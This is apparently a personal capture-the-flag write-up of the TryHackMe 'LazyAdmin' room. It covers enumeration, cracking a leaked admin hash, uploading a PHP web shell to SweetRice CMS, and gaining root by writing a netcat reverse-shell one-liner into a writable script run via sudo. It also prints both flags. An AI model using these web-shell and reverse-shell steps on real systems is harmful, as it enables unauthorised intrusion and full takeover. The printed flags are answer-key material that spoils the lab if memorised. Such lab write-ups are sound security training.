---
tags:
  - tryhackme
  - challenge
  - easy
  - offensive
  - linux
  - web
  - sudo-abuse
---

# LazyAdmin

**Platform:** TryHackMe  
**Type:** Challenge  
**Difficulty:** Easy  
**Link:** [LazyAdmin](https://tryhackme.com/challenges)

## Description
"Easy linux machine to practice your skills"

## Enumeration
I generated a list of open ports for more comprehensive enumeration with the following:  
`ports=$(nmap -p- --min-rate=1000 TARGET_IP_ADDRESS | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)`  
This revealed the following open ports:  

* 22
* 80

I ran a full `nmap` scan to query the services for version information, as well as querying the target system for OS information with `nmap -p$ports -A -T4 TARGET_IP_ADDRESS`, which revealed the following:  
  

I used my go-to `ffuf` command to enumerate the website:  
`ffuf -u http://TARGET_IP_ADDRESS/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -ic -c`  
  

Navigating to the home page in a browser revealed default Apache web page. There was nothing interesting in the source code (unsurprising) and there were no `robots.txt` or `sitemap.xml` files. Navigating to the `/content` directory discovered in the `ffuf` scan revealed an unconfigured SweetRice CMS installation, so I decided to perform another `ffuf` scan using the `content` directory as the base directory:  
  

Using the `ffuf` scan as a guide, I navigated to each discovered directory. The `/inc` directory had a couple of interesting leads:  
  

The `lastest.txt` drew my attention because it appears to contain a typo in the name. The contents gave a potential version number for the SweetRice installation:  
  

Following the `/my_sql_backup` lead provided me with a link to an apparent backup of a SQL database:  
  

After downloading the file, I ran it through `strings` and found what looked like an admin password hash:  
  

The `/as` directory discovered in the `ffuf` follow up scan revealed an admin portal.

Searching `searchsploit` for vulnerabilities yielded the following results:  

* SSH - a potential username enumeration exploit  
* Apache - nothing of interest (there was a DoS exploit but this is unlikely to be the intended pathway in a CTF)  
* SweetRice - numerous exploits for this version, all worth exploring during foothold exploration

## Foothold
I used [CrackStation](https://crackstation.net/) as a quick tool for cracking the hash found in the SQL backup file, and got a match:  
  

I used the password with the username found in the SQL backup file ("manager") in the `/as` endpoint, successfully logging in.

Revisiting the exploits found in the `searchsploit` search earlier on, there is one that mentioned arbitrary code execution. Looking through the documentation that accompanies the search result provides a guide for uploading PHP code to the web application, which will then be executed server-side. Following the hints in the documentation, I navigated to the "Ads" section of the admin dashboard, provided a name ("shell"), copied the contents of [p0wny-shell](https://github.com/flozz/p0wny-shell/blob/master/shell.php) and clicked "Done". Still following the documentation, I visited the `/attachment` directory, where my `shell.php` file could be seen and activated:  
  
From there, finding and reading the contents of the user flag was trivial:  
  
??? success "What is the user flag?"
	THM{63e5bce9271952aad1113b6f1ac28a07}

## Privilege Escalation
The first thing I do when I have achieved an interactive shell as a standard user is enumerate `sudo` rights:  
  

The output shows that I can execute Perl as `sudo` but only with one script, so I had a look at the contents of that script:  
  

This script only does one thing - executes another script at `/etc/copy.sh`. With that in mind, I took a look at the contents of the target script:  
  

The `copy.sh` file actually creates a reverse shell to an unknown endpoint - presumably this is the "lazy admin" machine referenced in the challenge title, and they're left this script behind as a way to connect to their machine. The next step was to see if I could edit the `copy.sh` file contents:  
  

The file permissions are set so that the file is globally writable. This means that there's a misconfiguration logic that I can take advantage of:  

* The `www-data` user can execute Perl as `sudo` with the `backup.pl` script  
* The `backup.pl` script executes the `copy.sh` script  
* The `copy.sh` file initiates a reverse shell to another endpoint  
* The `copy.sh` file contents are writable by my user, so I can update it to instead reaches back to my attacker machine  
* When the `backup.pl` script is executed with the Perl binary as `sudo`, the resulting shell session should retain `root` rights  

I overwrote the `copy.sh` contents with the following code in the `p0wny-shell`:  
`echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.130.206 4444 >/tmp/f' > /etc/copy.sh`

On my attacker machine, I opened a `netcat` listener (`nc -lvnp 4444`) and back in the `p0wny-shell` ran the Perl binary as `sudo` with the `backup.pl`:  
`sudo perl /home/itguy/backup.pl`

This resulted in a `root` shell as expected. From here, finding and reading the root flag was trivial:  
  
??? success "What is the root flag?"
	THM{6637f41d0177b6f37cb20d775124699f}

**Tools Used**  
`ffuf` `searchsploit` `p0wny-shell`

**Date completed:** 01/04/26  
**Date published:** 01/04/26